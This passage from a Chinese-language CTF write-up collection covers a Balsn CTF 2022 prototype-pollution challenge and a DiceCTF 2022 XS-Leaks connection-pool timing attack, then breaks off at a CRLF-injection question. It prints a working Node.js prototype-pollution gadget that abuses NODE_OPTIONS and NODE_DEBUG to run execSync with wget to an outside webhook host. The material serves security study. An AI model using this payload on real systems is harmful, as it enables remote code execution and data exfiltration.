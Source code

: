 ```js hljs
);
```

有一個很明顯的 prototype pollution，要做到 RCE。

這邊有一篇很棒的論文可以參考：[Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js](https://arxiv.org/abs/2207.11171)

但論文裡面提到的 gadget 被修掉了，要自己再找一個，結果如下：

```js hljs
Object.prototype["data"] = {
  exports: {
    ".": "./preinstall.js"
  },
  name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
  "NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
  "NODE_OPTIONS": "--require=/proc/self/environ"
}

require('./usage.js')
```

細節可以看完整 writeup：[https://blog.huli.tw/2022/12/08/ctf-js-notes#balsn-ctf-2022-2linenodejs](https://blog.huli.tw/2022/12/08/ctf-js-notes#balsn-ctf-2022-2linenodejs)

XSleaks
-------

### DiceCTF 2022 - carrot

這題簡單來說就是利用 [connection pool](https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/) 來測量 response time。

你可能會想說測量 response time 有什麼難的，fetch 外加自己算一下不就好了嗎？但如果有 SameSite cookie 的話，fetch 是無法使用的，這時候就需要用到一些 XSleaks 的小技巧來測量時間。

在 Chrome 裡面 socket 數量是有上限的，一般是 255，headless 是 99，假設我們先把 socket 消耗到只剩下一個，這時候我去造訪我想測量時間的 URL（叫做 reqSearch），與此同時發另一個 request 到我們自己的 server（叫做 reqMeasure）。

由於 socket 只剩一個，所以 reqMeasure 從發出 request 到收到 response 的時間，就是 `reqSearch 花的時間 + reqMeasure 花的時間`，假設 reqMeasure 花的時間都差不多，那我們很容易可以測量出 reqSearch 花的時間。

詳細 writeup：[https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/#webcarrot1-solves](https://blog.huli.tw/2022/02/08/what-i-learned-from-dicectf-2022/#webcarrot1-solves)

### TSJ CTF 2022 - Nim Notes

這題你可以做到 CRLF injection，但是位置在最底下，所以沒辦法覆蓋 CSP 也無法 XSS，要怎麼偷到頁面的內容？
